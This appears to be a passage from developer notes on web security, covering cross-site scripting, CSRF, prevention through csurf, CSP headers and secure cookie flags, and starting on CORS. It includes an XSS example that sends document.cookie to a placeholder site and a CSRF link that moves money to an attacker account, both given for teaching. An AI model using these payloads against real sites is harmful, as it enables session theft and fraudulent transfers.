 - Allows attacker to execute scripts in victims browser

    ```html
    <!-- EXAMPLE -->
    <!-- Session hijacking - send user to specific website and steal cookies -->
    <img src='/' onerror="window.location = '<site>.com?cookie=' + document.cookie">
    ```

  ### Cross Site Request Forgery

  *creates a bad url with bad code in it*

  ```html

  <!-- Use Query Parameters Using HTTP GET -->

  <a href="http://netbank.com/transfer.do?acct=AttackerA&amount;=$100">Read More!</a>

  ```

  ### Prevention

  - use ***Csurf***

    `npm i csurf`

  - Sanitize Input
  - Never Use
    - `eval()`
    - `document.write(<script>);`

  #### Security Policy In Headers

  - Set security policy in headers with Express
    ```javascript
    res.set({
      'Content-Security-Policy': "script-src 'self' 'https://apis.google.com'"
    });
    ```

  #### Cookies

  - Avoid using cookies
  - If using cookies - set the cookie security policy

    ```javascript
    res.cookie('session', '1', {httpOnly: true})
    res.cookie('session', '1', {secure: true})
    ```

## CORS

*Cross Origin Resource Sharing*

`npm i cors`
